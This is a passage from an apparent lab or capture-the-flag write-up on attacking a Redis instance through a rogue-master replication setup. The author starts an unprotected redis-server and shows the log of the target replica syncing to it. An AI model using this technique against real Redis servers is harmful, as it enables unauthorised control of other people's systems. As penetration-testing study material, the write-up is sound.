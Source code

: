 Hacktricks mentions that we might be able to control the master instance (the machine) with our slave. This means that we could potentially read stuff within the machine. To exploit this, we can first create a `redis-server` to accept incoming connections and retrieve output from the commands I sent via webhooks.

I found a blog in Chinese that does cover this a bit:

{% embed url="https://zhuanlan.zhihu.com/p/349407426" %}

Following this, I started a `redis-server` with the protected mode turned off to allow connections from anywhere:

````
$ redis-server --protected-mode no
55358:C 24 Aug 2023 22:02:32.141 # oO0OoO0OoO0Oo Redis is starting oO0OoO0OoO0Oo
55358:C 24 Aug 2023 22:02:32.141 # Redis version=7.0.5, bits=64, commit=00000000, modified=0, pid=55358, just started
55358:C 24 Aug 2023 22:02:32.141 # Configuration loaded
55358:M 24 Aug 2023 22:02:32.141 * Increased maximum number of open files to 10032 (it was originally set to 1024).
55358:M 24 Aug 2023 22:02:32.141 * monotonic clock: POSIX clock_gettime
                _._                                                  
           _.-``__ ''-._                                             
      _.-``    `.  `_.  ''-._           Redis 7.0.5 (00000000/0) 64 bit
  .-`` .-```.  ```\/    _.,_ ''-._                                  
 (    '      ,       .-`  | `,    )     Running in standalone mode
 |`-._`-...-` __...-.``-._|'` _.-'|     Port: 6379
 |    `-._   `._    /     _.-'    |     PID: 55358
  `-._    `-._  `-./  _.-'    _.-'                                   
 |`-._`-._    `-.__.-'    _.-'_.-'|                                  
 |    `-._`-._        _.-'_.-'    |           https://redis.io       
  `-._    `-._`-.__.-'_.-'    _.-'                                   
 |`-._`-._    `-.__.-'    _.-'_.-'|                                  
 |    `-._`-._        _.-'_.-'    |                                  
  `-._    `-._`-.__.-'_.-'    _.-'                                   
      `-._    `-.__.-'    _.-'                                       
          `-._        _.-'                                           
              `-.__.-'                                               

55358:M 24 Aug 2023 22:02:32.141 # Server initialized
55358:M 24 Aug 2023 22:02:32.141 # WARNING overcommit_memory is set to 0! Background save may fail under low memory condition. To fix this issue add 'vm.overcommit_memory = 1' to /etc/sysctl.conf and then reboot or run the command 'sysctl vm.overcommit_memory=1' for this to take effect.
55358:M 24 Aug 2023 22:02:32.142 * Loading RDB produced by version 7.0.5
55358:M 24 Aug 2023 22:02:32.142 * RDB age 4 seconds
55358:M 24 Aug 2023 22:02:32.142 * RDB memory usage when created 0.84 Mb
55358:M 24 Aug 2023 22:02:32.142 * Done loading RDB, keys loaded: 0, keys expired: 0.
55358:M 24 Aug 2023 22:02:32.142 * DB loaded from disk: 0.000 seconds
55358:M 24 Aug 2023 22:02:32.142 * Ready to accept connections
55358:M 24 Aug 2023 22:02:32.442 * Replica 10.129.65.142:6379 asks for synchronization
55358:M 24 Aug 2023 22:02:32.442 * Partial resynchronization not accepted: Replication ID mismatch (Replica asked for '520da79bde0fb674df0c059e7980ebba25040e40', my replication IDs are '878522e90fcf26e6072f9c4cc8a0d62d4a787242' and '0000000000000000000000000000000000000000')
55358:M 24 Aug 2023 22:02:32.442 * Replication backlog created, my new replication IDs are 'e541c01323ce2bfa0006957e83989894730c2cb7' and '0000000000000000000000000000000000000000'
55358:M 24 Aug 2023 22:02:32.442 * Delay next BGSAVE for diskless SYNC
55358:M 24 Aug 2023 22:02:37.169 * Starting BGSAVE for SYNC with target: replicas sockets
55358:M 24 Aug 2023 22:02:37.170 * Background RDB transfer started by pid 55383
55383:C 24 Aug 2023 22:02:37.170 * Fork CoW for RDB: current 0 MB, peak 0 MB, average 0 MB
55358:M 24 Aug 2023 22:02:37.171 # Diskless rdb transfer, done reading from pipe, 1 replicas still up.
55358:M 24 Aug 2023 22:02:37.185 * Background RDB transfer terminated with success
55358:M 24 Aug 2023 22:02:37.185 * Streamed RDB transfer with replica 10.129.65.142:6379 succeeded (socket). Waiting for REPLCONF ACK from slave to enable streaming
55358:M 24 Aug 2023 22:02:37.185 * Synchronization with replica 10.129.65.142:6379 succeeded
````
